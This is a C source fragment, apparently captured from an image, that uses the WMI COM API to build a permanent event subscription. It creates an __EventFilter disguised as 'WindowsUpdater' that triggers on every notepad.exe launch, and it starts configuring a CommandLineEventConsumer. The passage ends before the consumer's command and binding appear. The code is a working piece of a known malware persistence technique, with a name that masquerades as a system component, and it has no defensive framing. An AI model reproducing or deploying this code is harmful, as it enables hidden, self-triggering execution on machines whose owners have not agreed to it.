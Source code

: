 ```c
    V_VT(&v)=VT_BSTR;
    V_BSTR(&v)=SysAllocString(L"WindowsUpdater");

    BSTR Name=SysAllocString(L"Name");
    pFilterInstance->lpVtbl->Put(pFilterInstance,Name,0,&v,0);
    VariantClear(&v);

    //9.Setting __EventFilter Class Query Field
    V_VT(&v)=VT_BSTR;
    V_BSTR(&v)=SysAllocString(L"Select * From __InstanceCreationEvent Within 5 Where TargetInstance Isa \"Win32_Process\" And TargetInstance.Name = \"notepad.exe\"");

    BSTR Query =SysAllocString(L"Query");
    pFilterInstance->lpVtbl->Put(pFilterInstance,Query,0,&v,0);
    VariantClear(&v);


    //10.Setting __EventFilter Class QueryLanguage Field
    V_VT(&v)=VT_BSTR;
    V_BSTR(&v)=SysAllocString(L"WQL");

    BSTR QueryLanguage =SysAllocString(L"QueryLanguage");
    pFilterInstance->lpVtbl->Put(pFilterInstance,QueryLanguage,0,&v,0);
    VariantClear(&v);

    //11.Setting __EventFilter Class EventNameSpace Field
    VariantInit(&v);
    V_VT(&v)=VT_BSTR;
    V_BSTR(&v)=SysAllocString(L"root\\cimv2");

    BSTR EventNameSpace =SysAllocString(L"EventNameSpace");
    pFilterInstance->lpVtbl->Put(pFilterInstance,EventNameSpace,0,&v,0);
    VariantClear(&v);

    hres=pServices->lpVtbl->PutInstance(pServices,pFilterInstance,WBEM_FLAG_CREATE_OR_UPDATE,0,0);
    if (FAILED(hres)){
        printf("Modified Event Filter Class Instance was unable to be written\n");
        goto cleanup;
    }else{
        printf("Event Filter class instance was properly written\n");

    }


    //12.Getting CommandLineEventConsumer Class
    hres=pServices->lpVtbl->GetObject(pServices,consumerclass,0,NULL,&pConsumer,NULL);
    if (FAILED(hres)){
        printf("CommandLineEventConsumer class was not properly connected ");
        goto cleanup;
    }else{
       printf("CommandLineEventConsumer class was properly connected\n");
    }
    //13.Spawning CommandLineEventConsumer Class
    hres=pConsumer->lpVtbl->SpawnInstance(pConsumer,0,&pConsumerInstance);
    if (FAILED(hres)){
        printf("Consumer class instance wasn't properly spawned\n");
    }else{
        printf("Consumer class instance was properly spawned\n");
    }
    //14.Setting CommandLineEventConsumer Class Name Field

    V_VT(&v)=VT_BSTR;
    V_BSTR(&v)=SysAllocString(L"WindowsUpdater");
```